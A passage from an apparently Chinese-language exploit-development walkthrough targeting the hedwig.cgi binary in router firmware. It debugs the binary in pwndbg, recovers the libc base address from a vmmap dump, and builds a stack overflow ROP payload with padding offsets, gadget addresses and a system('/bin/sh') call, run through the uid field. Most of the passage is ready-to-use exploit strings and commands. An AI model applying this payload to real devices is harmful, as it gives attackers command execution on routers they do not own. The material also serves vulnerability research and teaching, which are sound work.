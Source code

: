 $ra=offset_gadget2=0x767fe8c8

$sp+0x14C+var_13C=command

构造填充字符

```sh
#构造字符
'A'*973+0x7683c1ff+'B'*(993-973-4)+0x767fe9cc+'C'*(1009-993-4)+0x767fe8c8+'D'*(1029-1009-4)+command
'A'*973+'\xff\xc1\x83\x76'+'B'*(993-973-4)+'\xcc\xe9\x7f\x76'+'C'*(1009-993-4)+'\xc8\xe8\x7f\x76'+'D'*(1029-1009-4)+'/bin/sh'
#执行命令
sudo ./cgi_run.sh 'uid=1234'  `python  -c "print 'uid='+'A'*973+'\xff\xc1\x83\x76'+'B'*(993-973-4)+'\xcc\xe9\x7f\x76'+'C'*(1009-993-4)+'\xc8\xe8\x7f\x76'+'D'*(1029-1009-4)+'/bin/sh'"`
```

问题在这个时候又出现了，那就是发现这里跳转的内存地址中保存的都是0x00，仔细检查vmmap命令找到的动态链接库，发现其大小不对，差了很多，说明这里的动态链接库地址不对。

经过一系列的调试发现，当pwndbg调试没有到进入libc.so.0动态库中调用函数的时候，vmmap是看不到库的真实基址的，只能看到`[linker]`，需要运行到库中的函数才能找到`<explored>`，所以我们单步调试到程序调用libc.so.0动态库中函数的位置，再用vmmap查看内存情况，可以找到libc.so.0动态库的正确基址地址0x76738000。

```sh
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
  0x400000   0x401000 rwxp     1000 0      /htdocs/web/hedwig.cgi
  0x401000   0x41c000 r-xp    1b000 1000   /htdocs/web/hedwig.cgi
  0x41c000   0x42c000 ---p    10000 1c000  /htdocs/web/hedwig.cgi
  0x42c000   0x42e000 rw-p     2000 1c000  /htdocs/web/hedwig.cgi
0x76738000 0x76796000 r--p    5e000 0      <explored>
0x767e8000 0x767ee000 rwxp     6000 0      <explored>
0x767e9000 0x767ea000 rwxp     1000 0      [linker]
0x767ea000 0x767ee000 r-xp     4000 1000   [linker]
0x767ee000 0x767fd000 ---p     f000 4000   [linker]
0x767fd000 0x767fe000 r--p     1000 4000   [linker]
0x767fe000 0x767ff000 rw-p     1000 5000   [linker]
0x76800000 0x76c06000 rw-p   406000 0      <explored>
0x76ffd000 0x77000000 rw-p     3000 0      [stack]
```

所以这里的四个填充操控点需要重新计算：

$s0=offset_system-0x1=0x76738000+0x53200-0x1=0x7678b1ff

$s5=offset_gadget1=0x76738000+0x159CC=0x7674d9cc

$ra=offset_gadget2=0x76738000+0x158C8=0x7674d8c8

$sp+0x14C+var_13C=command

重新构造填充字符

```sh
#构造字符
'A'*973+0x7678b1ff+'B'*(993-973-4)+0x7674d9cc+'C'*(1009-993-4)+0x7674d8c8+'D'*(1029-1009-4)+command
'A'*973+'\xff\xb1\x78\x76'+'B'*(993-973-4)+'\xcc\xd9\x74\x76'+'C'*(1009-993-4)+'\xc8\xd8\x74\x76'+'D'*(1029-1009-4)+'/bin/sh'+'\x00'
#执行命令
sudo ./cgi_run.sh 'uid=1234'  `python  -c "print 'uid='+'A'*973+'\xff\xb1\x78\x76'+'B'*(993-973-4)+'\xcc\xd9\x74\x76'+'C'*(1009-993-4)+'\xc8\xd8\x74\x76'+'D'*(1029-1009-4)+'/bin/sh'+'\x00'"`
```
